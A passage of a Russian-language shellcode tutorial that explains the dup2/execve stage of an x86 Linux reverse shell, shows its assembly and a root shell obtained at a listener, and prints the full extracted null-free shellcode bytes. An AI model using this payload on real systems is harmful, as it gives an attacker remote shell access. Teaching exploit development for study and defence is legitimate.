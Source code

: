 - **стандартный ввод** или 0 (ввод)
- **стандартный вывод** или 1 (вывод)
- **stderr** или 2 (ошибка)

Идея состоит в том, чтобы дублировать стандартные файловые дескрипторы в файловом дескрипторе, полученном с помощью вызова connect _()_ , а затем вызвать _/bin/sh_ . Таким образом, мы сможем иметь обратную оболочку на целевой машине.

Существует системный вызов [dup2](http://man7.org/linux/man-pages/man2/dup2.2.html) , номер **0x3f** , который может помочь нам с этой задачей. Он принимает 2 аргумента:

- Старый _fd_ -> _EBX_
- Новый _fd_ -> _ECX_

```c
int dup2(int oldfd, int newfd);
```

Давайте реализуем остальную часть кода:

```c
; Call to dup2(fd, ...) with a loop for the 3 descriptors
xchg eax, ebx   ; EBX = fd for connect()
push BYTE 0x2   ; we start with stderr
pop ecx

loop:
mov BYTE al, 0x3f ; dup2()
int 0x80
dec ecx
jns loop ; loop until sign flag is set meaning ECX is negative

; Call to execve()
xor eax, eax
push eax        ; string terminator
push 0x68732f6e ; "hs/n"
push 0x69622f2f ; "ib//"
mov ebx, esp    ; "//bin/sh",0 pointer is ESP
xor ecx, ecx    ; ECX = 0
xor edx, edx    ; EDX = 0
mov al, 0xb     ; execve()
int 0x80  
```

Пересоберите шелл-код с добавленной подпрограммой и запустите слушатель, вы должны получить шелл:

```bash
$ ./connectback 
# id
uid=0(root) gid=0(root) groups=0(root)
```

Вы можете попробовать извлечь шелл-код, он должен быть свободен от нулевых байт :)

```bash
objdump -d ./connectback|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x6a\x66\x58\x31\xdb\x43\x31\xd2\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x96\x6a\x66\x58\xba\x80\x01\x01\x02\x81\xea\x01\x01\x01\x01\x52\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\x43\xcd\x80\x93\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"
```
